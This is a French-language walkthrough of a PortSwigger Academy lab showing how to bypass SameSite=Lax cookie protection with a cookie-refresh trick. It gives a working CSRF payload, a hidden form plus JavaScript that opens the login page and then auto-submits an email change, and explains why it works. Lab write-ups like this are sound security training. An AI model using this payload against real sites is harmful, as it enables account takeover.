 # Lab

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-cookie-refresh

## Solution

Sur le lab, quand on se connecte il n'y a pas de spécification sur le cookie `SameSite` donc il est par défaut à `Lax`. On peut donc utiliser la technique de `refresh` pour bypasser la protection.

```html
<form method="POST" action="https://0aea0006048751748115200e00920029.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@pwned.net">
</form>
<p>Click anywhere on the page</p>
<script>
    window.onclick = () => {
        window.open('https://0aea0006048751748115200e00920029.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

Lorsqu'un utilisateur clique n'importe où sur la page, le gestionnaire d'événement onclick est déclenché.

`window.open` est utilisé pour ouvrir une nouvelle page de connexion (`/social-login`) sur le même domaine. Cette action est considérée comme une "navigation de niveau supérieur" (comme cliquer sur un lien), ce qui est permis par `SameSite=Lax`.

Après un délai de 5 secondes, la fonction `changeEmail` est appelée, qui soumet automatiquement un formulaire. Ce formulaire a pour action de changer l'adresse e-mail de l'utilisateur à une valeur contrôlée par l'attaquant (`pwned@pwned.net`).

Le contournement de `SameSite=Lax` se produit ici car l'ouverture de la page `/social-login` via window.open est considérée comme une action initiée par l'utilisateur. Cette action est permise par `SameSite=Lax`, et en conséquence, les cookies (y compris ceux avec `SameSite=Lax`) sont envoyés avec la requête. Une fois que la nouvelle page est chargée (et potentiellement les cookies de session sont confirmés), la soumission du formulaire se fait dans ce contexte authentifié, permettant ainsi l'attaque CSRF.